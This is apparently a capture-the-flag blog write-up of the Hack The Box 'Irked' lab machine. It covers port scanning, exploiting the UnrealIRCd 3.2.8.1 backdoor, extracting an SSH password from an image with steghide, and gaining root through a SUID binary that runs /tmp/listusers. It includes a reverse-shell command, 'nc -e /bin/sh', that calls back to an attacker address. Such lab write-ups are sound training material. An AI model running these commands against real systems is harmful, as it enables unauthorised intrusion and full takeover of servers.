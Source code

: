 ```yaml
---
layout: single
title: Irked Writeup
date: '2020-04-30 15:30:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-04-30-irked-writeup/irked_logo.png
    text: "https://app.hackthebox.eu/machines/163"
typora-copy-images-to: ../../images/posts/2020/${filename}/
---
```


A pretty easy box that reinforces the use of basic techniques.…

## Enumeration

Starting with the usual Autorecon we turn up the following
```
    22/tcp open ssh syn-ack ttl 63 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp open http syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))
    111/tcp open rpcbind syn-ack ttl 63 2-4 (RPC #100000)
    6697/tcp open irc syn-ack ttl 63 UnrealIRCd
    8067/tcp open irc syn-ack ttl 63 UnrealIRCd
    54513/tcp open status syn-ack ttl 63 1 (RPC #100024)
    65534/tcp open irc syn-ack ttl 63 UnrealIRCd
```
Given the name of the server I was pretty much banking on seeing IRC running, and so wasn't disappointed.

Picking one of the UnrealIRCd ports, 6697, I tried telnetting in to see if it really was IRC running, which it was. It's pretty easy to interact with a IRC server over telnet, so I registered with the server to get a bit more information from it
```bash
    telnet 10.10.10.117 6697
    Trying 10.10.10.117...
    Connected to 10.10.10.117.
    Escape character is '^]'.
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    nick b0b
    user b0b 0 * :b0b
    :irked.htb 001 b0b :Welcome to the ROXnet IRC Network b0b!b0b@10.10.14.15
    :irked.htb 002 b0b :Your host is irked.htb, running version Unreal3.2.8.1
```

From this we can see the server is running _Unreal3.2.8.1_. A quick look on ExploitDB turns up [https://www.exploit-db.com/exploits/13853](https://www.exploit-db.com/exploits/13853) which makes use of a backdoor that was introduced into the source.

The backdoor is very easy to exploit, you just need to send `AB;` and then whatever shell commands you want to execute.

I decided to try a lazy approach first and fired up a listener with `nc -lvp 1234` and then ran `nc 10.10.10.117 6697`. Once the `nc` connected to the server I sent the command `nc -e /bin/sh 10.10.14.12 1234`. Being lazy paid off in this case as `nc` was installed on the box and so I then had a shell as the ircd user.

A quick look around the filesystem turned up the user `djmardov`. Looking in `/home/djmardov` I had a nose in the `Documents` directory. I couldn't view `user.txt` but the file `.backup` looked interesting.

![Annotation-2020-04-30-150422](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422.png)

This seems to be a reference to [Steganograph](https://en.wikipedia.org/wiki/Steganography)y. First I installed `steghide` with `sudo apt install steghide` and then had a look for a picture. From the earlier `nmap` I remembered that a webserver was listening and so that seemed a good place to start.

![Annotation-2020-04-30-150422a](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422a.png)


There was indeed an image on the site, irked.jpg. I grabbed this and then ran
```bash
    steghide extract -sf irked.jpg
    Enter passphrase:
    wrote extracted data to "pass.txt".
    
    cat pass.txt
    Kab6h+m+bbp2J:HG
```
Good stuff. Taking the lazy option I tried this password over ssh `ssh djmardov@10.10.10.117`

and I was in. It was then a quick job to get `user.txt`

![Annotation-2020-04-30-150422b](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422b.png)

## Escalating privileges

### Enumeration

Now that we have an interactive session as a different users it's time to redo enumeration. Looking at processes running and services listening there wasn't really anything sticking out. Given that there wasn't anything obvious it was time to use [LinEnum](https://github.com/rebootuser/LinEnum). I used `scp` to copy this across and then kicked it off

![Annotation-2020-04-30-150422c](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422c.png)

Looking through the report a _suid_ file with a fairly recent changed date. Given the box was released on 17 Nov 2018 it seemed worth a look

![Annotation-2020-04-30-150422d](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422d.png)

### Exploitation

When you run the program it tries to access `/tmp/listusers` which doesn't exist. Copying the file to my local machine and then running it using `ltrace` shows the following:

![Annotation-2020-04-30-150422e](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422e.png)

The program first calls the `who` command using system. It then sets its userid (uid) to 0, which is root. It then tries to execute the contents of `/tmp/listusers`. This means if we put some shell commands in this files they should be executed as root.

To do this we `vi /tmp/listusers` and put in the following
```bash
    #!/bin/bash
    echo "shell?"
    /bin/bash
```
We then run `chmod u+x /tmp/listusers` to make the file executable. The `echo "shell?"` is just so we can tell if the script is executed if we don't get a shell for some reason.

Running `/usr/bin/viewuser` does indeed give us a root shell and we can quickly grab the flag

![Annotation-2020-04-30-150422f](../../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422f-6947874.png)


